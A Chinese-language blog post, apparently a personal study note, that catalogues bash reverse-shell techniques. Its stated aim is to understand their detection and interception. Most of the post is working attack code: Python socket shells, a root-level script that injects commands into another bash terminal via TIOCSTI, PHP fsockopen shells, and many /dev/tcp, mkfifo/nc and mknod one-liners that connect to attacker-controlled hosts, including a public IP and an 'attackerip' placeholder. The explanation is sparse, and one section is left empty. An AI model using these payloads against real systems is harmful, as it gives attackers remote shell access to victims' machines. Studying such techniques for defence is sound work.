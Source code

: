 ```yaml
---
title: 深入挖掘bash反弹shell背后的密码
url: 761.html
id: 761
password: a3k57NZ2HCZLYu8NuS4G
categories:
  - 学习记录
date: 2019-01-10 16:16:34
tags:
  - ctf
  - php
  - web
  - binary
---
```


## 前言

接触过安全的人都知道怎么反弹shell，而且反弹shell的形式多样，方法众多。如此显而易见的东西，真的有必要写篇文章再来详细来解释一下吗？

那好，先来看几个问题吧：

1. bash运行`exec 0</dev/tcp/tcp/127.0.0.1/2222 1>&0 2>&0` 可以成功反弹shell吗？
2. bash运行`exec bash 0</dev/tcp/tcp/127.0.0.1/2222 1>&0 2>&0` 可以成功反弹shell吗？跟1的区别是什么？
3. bash运行`0</dev/tcp/39.107.104.226/2222 1>&0 2>&0` 可以成功反弹shell吗？为什么？
4. php执行 `system("/bin/bash -i >& /dev/tcp/127.0.0.1/2222 0>&1")` 一定可以反弹shell吗？

如果以上问题无法正确的回答出来，那我觉得了解细节还是非常有必要的，本文主要来分享我在学习和思考反弹shell的检测和拦截过程方法中遇到的问题和这些问题之后背后隐藏的细节。本文核心只关注bash的反弹shell，不关注脚本和第三方程序。

<!-- more -->

## 反弹shell综述

反弹shell从本质上来讲只有一类，那就是**劫持命令的输入和输出**。从劫持的对象不同和劫持方法的不同，大概可以将目前见到的反弹shell可以进行如下分类。
(下图是我本人一个分类，非权威，如果有不妥或者错误，请和我交流指正。)

![](https://pic.wonderkun.cc//uploads/note/202110091114665.png)

这样看起来还是有点抽象，我们依次举一些例子吧：

### 直接劫持子程序的输入输出(体验不好)

```python
#coding:utf-8
import subprocess
import socket
import shlex

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",2020))

while True:
    cmd = s.recv(1024).decode().strip()
    print(cmd)
    cmd = shlex.split(cmd)

    process = subprocess.Popen(cmd, shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE,bufsize=0)
    out = process.communicate()
    # print(out)
    s.sendall(out[0])
```
其实重定向，管道符这些功能都是壳程序提供给我们的，这个反弹shell没有用到壳程序，所以没有 |、&、> 供我们用，体验很差。

### 劫持已有壳程序的输入输出

```bash
exec 0</dev/tcp/tcp/127.0.0.1/2222 1>&0 2>&0
```

就这么简单。
当然还有复杂的，但是需要root权限，功能还不太完善，我先给个代码示例吧。

```python
import fcntl, sys, termios
import os
import socket as sk
import threading
import time

def getBashPid():
    r = os.popen("pidof bash")
    pids = r.read().split()
    assert(len(pids) > 0) 
    return pids[0]

# tty_path = sys.argv[1]
pid = getBashPid()
tty_path = "/proc/{}/fd/0".format(pid)
s=sk.socket(sk.AF_INET,sk.SOCK_STREAM)
s.connect(("127.0.0.1",2020))
# os.dup2(s.fileno(),1)
tty_fd = open(tty_path, 'wb')
selfPid = os.getpid()

print("[*] The pid of the process is {}.".format(pid))

while True:
    a = s.recv(1024)
    if a:
    # a = b"\n" + a
        a = a.decode("utf-8")
        a = a.strip("\n") + " > /tmp/log \n"  # https://man7.org/linux/man-pages/man4/tty_ioctl.4.html 
        # 肯定有办法劫持输出，这个样觉得是不太合理的
        print(a)
        print(tty_path)
        # for line in ["ls -al\n"]:
        for byte in a:
        # for i in a:
        # byte = 
            fcntl.ioctl(tty_fd, termios.TIOCSTI,byte)
        
        time.sleep(1)
        with open("/tmp/log",'rb') as fileH:
            content = fileH.read()
            s.sendall(content)
    else:
        time.sleep(0.1)
tty_fd.close()
```

### 自己就是壳程序，劫持自己的输入和输出

其实这个想讲的是自己实现一个壳程序，然后把自己的输入输出都重定向到socket。实现一个简单壳程序其实没那么复杂，大概的思路是接收到一个命令之后，执行如下步骤：

1. fork
2. 在子程序中处理重定向和管道的问题
3. execve传过来的命令

但是想把这个壳程序写的好用，那就很难了。由于代码比较长，我就不贴了。感兴趣的google一下，有个帖子教写壳程序讲的很详细。

### 通过文件描述符绑定的方式劫持

这个估计是最常见的了，就简单说几个例子吧：
1. bash 

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
2. php 

```php
'$sock=fsockopen("127.0.0.1",2020);exec("/bin/sh -i <&3 >&3 2>&3");'
# 不一定是3,如果是webserver的话，一般是4或者更大。 
```
3. python

```python
#coding:utf-8 

import io
import subprocess
import os as so
import socket
import threading

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",2020))
process = subprocess.Popen(['/bin/bash'], shell=True, stdin=s, stdout=s,stderr=s,bufsize=0)
```

### 使用匿名/命令管道劫持

1. bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

nc 39.107.104.226 2333 | /bin/bash | nc 39.107.104.226 2334 
```
2. python

```python
import subprocess
import os as so
import socket
import threading

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",2020))

process = subprocess.Popen(['/bin/bash'], shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE,bufsize=0)

# so.dup2(s.fileno(),process.stdout.fileno())

def copy(socket,process):
    while True:
        if process.stdout.readable():
            data = process.stdout.read(1)
        # print(dir(process.stdout))
        # if data:
            socket.send(data)
copyWork = threading.Thread(target=copy,args=(s,process))
copyWork.setDaemon(True)
copyWork.start()

while True:
    data = s.recv(1024)
    process.stdin.write(data)
```

### 使用临时文件/内存文件进行劫持

```bash
mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc attackerip listenport 1>/tmp/backpipe
```

## 


## 简单的原理了解

```bash
exec /bin/sh 0</dev/tcp/127.0.0.1/2222 1>&0 2>&0
/bin/bash -i >& /dev/tcp/127.0.0.1/2222 0>&1
exec 0</dev/tcp/127.0.0.1/2222 1>&0 2>&0

/bin/bash -i > /dev/tcp/10.10.10.11/443 0<& 2>&1
exec 5<>/dev/tcp/10.10.10.11/443;cat <&5 | while read line; do $line 2>&5 >&5; done
0<&196;exec 196<>/dev/tcp/10.10.10.11/443; sh <&196 >&196 2>&196

0</dev/tcp/39.107.104.226/2222 1>&0 2>&0 # 为啥不行
```

## 参考链接

1. https://xz.aliyun.com/t/2548
2. https://xz.aliyun.com/t/2549

https://brucetg.github.io/2018/05/03/%E5%A4%9A%E7%A7%8D%E5%A7%BF%E5%8A%BF%E5%8F%8D%E5%BC%B9shell/

